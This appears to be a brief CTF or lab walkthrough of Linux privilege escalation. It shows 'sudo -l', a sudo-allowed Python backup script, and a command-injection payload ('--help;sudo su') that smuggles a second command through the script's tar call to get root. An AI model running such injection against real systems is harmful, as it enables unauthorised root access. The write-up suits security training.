 
sudo -l
<img width="796" alt="image" src="https://user-images.githubusercontent.com/59768512/167270262-887ad0d2-eedc-48c9-a667-8a5d37d74742.png">

can run sudo /usr/bin/python3 /home/user/safe_backup.py with args

see safe_backup.py
<img width="870" alt="image" src="https://user-images.githubusercontent.com/59768512/167270179-3574d9be-a110-491c-8208-d4e76893d452.png">

command injection


--help to statisfy tar 
sudo /usr/bin/python3 /home/user/safe_backup.py -e "--help;sudo su"
